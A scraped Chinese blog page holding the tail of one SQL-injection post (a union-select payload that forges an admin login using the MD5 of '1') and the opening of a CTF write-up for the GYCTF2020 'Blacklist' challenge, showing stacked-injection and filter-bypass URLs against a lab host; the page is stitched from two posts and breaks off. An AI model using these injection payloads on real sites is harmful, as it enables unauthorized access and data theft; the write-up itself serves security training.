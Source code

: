 <pre data-index="3"><code class="language-sql hljs">name<span class="hljs-operator">=</span><span class="hljs-number">1</span><span class="hljs-string">' union select 1,'</span>admin<span class="hljs-string">','</span>c4ca4238a0b923820dcc509a6f75849b<span class="hljs-string">'#&amp;pw=1</span></code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre> 
<p>&nbsp;其中'c4ca4238a0b923820dcc509a6f75849b'是1的md5加密值。</p> 
<p><img alt="" height="201" src="https://img-blog.csdnimg.cn/20210214232902953.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1JBQkNEWEI=,size_16,color_FFFFFF,t_70" width="797"></p> 
<p><img alt="" height="207" src="https://img-blog.csdnimg.cn/2021021423295389.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1JBQkNEWEI=,size_16,color_FFFFFF,t_70" width="979"></p> 

                </div>

<div id="content_views" class="markdown_views prism-atom-one-light">
                    <svg xmlns="http://www.w3.org/2000/svg" style="display: none;">
                        <path stroke-linecap="round" d="M5,0 0,2.5 5,5z" id="raphael-marker-block" style="-webkit-tap-highlight-color: rgba(0, 0, 0, 0);"></path>
                    </svg>
                    <h1><a name="t0"></a><a id="GYCTF2020Blacklist_1_0"></a>[GYCTF2020]Blacklist 1（详细做题过程）</h1> 
<p></p> 


<p><strong>1、堆叠注入<br> 2、 Handler语法</strong></p> 
<blockquote> 
 <p>心得：学会新的姿势<a href="https://so.csdn.net/so/search?q=Handler&amp;spm=1001.2101.3001.7020" target="_blank" class="hl hl-1" data-report-click="{&quot;spm&quot;:&quot;1001.2101.3001.7020&quot;,&quot;dest&quot;:&quot;https://so.csdn.net/so/search?q=Handler&amp;spm=1001.2101.3001.7020&quot;,&quot;extra&quot;:&quot;{\&quot;searchword\&quot;:\&quot;Handler\&quot;}&quot;}" data-tit="Handler" data-pretit="handler">Handler</a>的sql查询方法</p> 
</blockquote> 
<h2><a name="t3"></a><a id="2_8"></a>2、解题过程</h2> 
<h5><a id="1_10"></a>1、寻找<code>注入点</code></h5> 
<pre data-index="0" class="prettyprint"><code class="prism language-php has-numbering" onclick="mdcp.copyCode(event)" style="position: unset;">http<span class="token punctuation">:</span><span class="token comment">//3c6e5317-cd37-4cee-9e1f-7ffdea4f0191.node3.buuoj.cn/?inject=1'#</span>
<div class="hljs-button {2}" data-title="复制"></div></code><ul class="pre-numbering" style=""><li style="color: rgb(153, 153, 153);">1</li></ul></pre> 
<p><img src="https://img-blog.csdnimg.cn/20210524212705889.png#pic_center" alt="在这里插入图片描述"></p> 
<h5><a id="2_19"></a>2、尝试<code>堆叠注入</code></h5> 
<p>得到数据库的两张表</p> 
<pre data-index="1" class="prettyprint"><code class="prism language-php has-numbering" onclick="mdcp.copyCode(event)" style="position: unset;">http<span class="token punctuation">:</span><span class="token comment">//3c6e5317-cd37-4cee-9e1f-7ffdea4f0191.node3.buuoj.cn/?inject=1'; show tables; #</span>
<div class="hljs-button {2}" data-title="复制"></div></code><ul class="pre-numbering" style=""><li style="color: rgb(153, 153, 153);">1</li></ul></pre> 
<p><img src="https://img-blog.csdnimg.cn/20210524212740306.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUxOTI3NjU5,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述"></p> 
<h5><a id="3_30"></a>3、尝试<code>联合注入</code></h5> 
<p>发现被过滤了很多内容</p> 
<pre data-index="2" class="prettyprint"><code class="prism language-php has-numbering" onclick="mdcp.copyCode(event)" style="position: unset;">http<span class="token punctuation">:</span><span class="token comment">//3c6e5317-cd37-4cee-9e1f-7ffdea4f0191.node3.buuoj.cn/?inject=1'；select*from FlagHere;#</span>
<div class="hljs-button {2}" data-title="复制"></div></code><ul class="pre-numbering" style=""><li style="color: rgb(153, 153, 153);">1</li></ul></pre> 
<p><img src="https://img-blog.csdnimg.cn/20210524212747465.png#pic_center" alt="在这里插入图片描述"></p> 
<h5><a id="4_41"></a>4、尝试<code>双写绕过</code></h5> 
<p>还是被ban</p> 
<pre data-index="3" class="prettyprint"><code class="prism language-php has-numbering" onclick="mdcp.copyCode(event)" style="position: unset;">http<span class="token punctuation">:</span><span class="token comment">//3c6e5317-cd37-4cee-9e1f-7ffdea4f0191.node3.buuoj.cn/?inject=1'；seselectlect*from FlagHere;#</span>
<div class="hljs-button {2}" data-title="复制"></div></code><ul class="pre-numbering" style=""><li style="color: rgb(153, 153, 153);">1</li></ul></pre> 
<p><img src="https://img-blog.csdnimg.cn/20210524212753366.png#pic_center" alt="在这里插入图片描述"></p> 